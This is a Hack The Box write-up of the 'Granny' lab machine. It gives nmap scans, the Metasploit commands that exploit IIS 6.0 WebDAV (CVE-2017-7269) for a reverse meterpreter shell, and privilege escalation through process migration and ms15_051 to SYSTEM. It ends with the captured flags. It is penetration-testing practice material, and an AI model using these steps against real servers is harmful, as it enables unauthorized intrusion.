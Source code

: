 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Granny
tags: ["metasploit"]
---
```

**Start 21:25 15-08-2024**

---
```
10.10.10.15
```
## Recon

### Nmap
```bash
┌──(kali㉿kali)-[~]
└─$ nmap 10.10.10.15                      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-15 20:26 IST
Nmap scan report for 10.10.10.15
Host is up (0.081s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 7.23 seconds
```

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT -T5 10.10.10.15 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-15 20:26 IST
Nmap scan report for 10.10.10.15
Host is up (0.080s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Thu, 15 Aug 2024 19:27:30 GMT
|_  Server Type: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.40 seconds
```

We look this version of `Microsoft IIS httpd 6.0` up and find a vulnerability right away:

![](../../../assets/522c4ec69b9ba0d3c1f6c7d3307a639d.png)

Luckily for us there's a `Metasploit` module for this exact exploit:

```bash
msf6 > search CVE-2017-7269

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank    Check  Description
   -  ----                                                 ---------------  ----    -----  -----------
   0  exploit/windows/iis/iis_webdav_scstoragepathfromurl  2017-03-26     
   manual  Yes    Microsoft IIS WebDav ScStoragePathFromUrl Overflow
```

## Metasploit

### Options
Fairly straightforward, we set it up nice and easy 

![](../../../assets/520139b1c759337a0d69ebde6cdef949.png)

```bash
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set RHOSTS 10.10.10.15
RHOSTS => 10.10.10.15
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set LHOST 10.10.14.4
LHOST => 10.10.14.4
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > run
```

You should get a `meterpreter shell` in no time.

### Meterpreter
After trying `getuid` it seems we are not privileged enough.

```bash
meterpreter > getuid
[-] stdapi_sys_config_getuid: Operation failed: Access is denied.
```

We spawn a shell using `shell` and check the `OS info` using `systeminfo`:

```powershell
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 GRANNY
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 15 Minutes, 18 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 753 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,290 MB
Page File: In Use:         180 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
```

Looks like we're running a `x86 based Windows 2003 Server`. Let's check for ways to escalate our privileges. I background the current session and get back into `msfconsole`.
For this we'll run [local exploit suggester](Windows%20Privilege%20Escalation.md#Metasploit#Exploit%20Suggester):

```bash
use post/multi/recon/local_exploit_suggester
```

I've set it to `SESSION 1` and `run` the exploit.

![](../../../assets/8e32c8c014526e512f65a2349518ab72.png)

Before we move on we need to `migrate processes` to a process which is running under `system`
We do this by simply typing `ps` in the `meterpreter` session:

![](../../../assets/5699fb97d396b2dc4eab4e6143977011.png)

Afterwards we'll want to `migrate` to any of the processes. I chose `2344, davcdata.exe` in my case.

```bash
meterpreter > migrate 2344
[*] Migrating from 2232 to 2344...
[*] Migration completed successfully.
```

Now we can use any of the exploits. I'll use `
`exploit/windows/local/ms15_051_client_copy_image` .

![](../../../assets/b8e0f359c7aca5ba150873747fe4f15e.png)

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Easy Peasy

### user.txt
```powershell
C:\Documents and Settings\Lakis\Desktop>type user.txt
type user.txt
700c5dc163014e22b3e408f8703f67d1
```

### root.txt
```powershell
C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
aa4beed1c0584445ab463a6747bd06e9
```


![](../../../assets/a44c68320ad7b753b3671688ffa10158.png)

---

**Finished 22:01**

[^Links]: [[Hack The Box]] [[OSCP Prep]]
